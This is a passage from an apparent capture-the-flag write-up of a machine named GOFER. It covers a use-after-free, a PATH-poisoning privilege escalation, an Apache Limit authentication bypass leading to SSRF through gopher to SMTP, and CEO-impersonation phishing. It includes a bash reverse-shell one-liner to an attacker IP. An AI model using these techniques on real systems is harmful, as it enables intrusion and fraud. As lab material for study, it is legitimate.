   This code creates a UAF vulernability because the pointer to this freed memory is not reset to 0x0 like when deleting a note.
  
   <span style="display:block" align="left">
     <img src="./images/BackupCode.png" align ="left" width="400px"</img>
     <img src="./images/PATHPoison.png" align="left" width="400px" </img>
    </span>
    
  \
  &nbsp;
  \
  &nbsp;
  \
  &nbsp;
  \
  &nbsp;
  \
  &nbsp;
  
 As a relative path is called to tar by prepending to the PATH variable another file besides tar can be ran as root if it exists before tar is found. Below is the simple script used to gain remote command line access.
 
 ```
 #!/bin/bash

 bash -i >& /dev/tcp/10.10.14.11/4444 0>&1
 ```

###  Improper access control on web proxy leads to SSRF and aribtrary sending of emails

  The apache config setting of <Limit> is a blacklist of allowed http methods. <Limit GET> will only require http authentication when sending GET requests. [Apache Limit Documentation](https://httpd.apache.org/docs/2.4/mod/core.html#limit). This allows for bypassing of http authentication to directly access web proxy unauthenticated by using any other method. The web proxy allows for access to the localhost only smtp service running on GOFER allowing for smtp commands to be ran though the php gopher wrapper instead of the normal smtp wrapper which is blacklsited. The blacklist entries of localhost and /127 can be bypassed by using 0 as the ip address, which is an alaternate way to write localhost. By sending an email with a malicous odt document linked in it a succesful phish is easy to accomplish. The most likely avenue for phishing is by sending the email from the CEO's email and using the social engineering principle of authrority.
